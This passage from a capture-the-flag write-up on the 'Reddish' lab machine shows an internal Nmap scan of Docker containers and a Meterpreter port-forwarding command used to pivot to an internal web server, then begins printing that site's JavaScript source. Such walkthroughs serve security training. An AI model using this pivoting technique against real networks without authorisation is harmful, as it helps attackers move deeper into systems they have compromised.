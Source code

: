 ```

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2018-07-24 11:19 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_www_1.reddish_composition_internal-network (172.19.0.3)                                                                         
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00016s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds

```

I can see the docker names, reddish\_composition\_redis\_1 and reddish\_composition\_www\_1, and the listening ports which fit for each server, 6379 for redis, and 80 for www.

### Web Site

#### Access

I’ll use the meterpreter shell to port forward localhost 80 through the session to 172.19.0.4:

```

meterpreter > portfwd add -l 80 -r 172.19.0.4 -p 80
[*] Local TCP relay created: :80 <-> 172.19.0.4:80

```

Visiting `http://127.0.0.1/` gives the page:

![1532616312104](https://0xdfimages.gitlab.io/img/1532616312104.png)

#### Javascript

Much more interesting than the displayed page is the javascript in the source:

```

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
        <title>Reddish</title>
        <script src="{{ "/img/jquery.js" type="text/javascript"></script>
        <script type="text/javascript">
            $(document).ready(function () {
                incrCounter();
                getData();
            });

            function getData() {
                $.ajax({
                    url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
                    cache: false,
                    dataType: "text",
                    success: function (data) {
                        console.log("Number of hits:", data)
                    },
                    error: function () {
                    }
```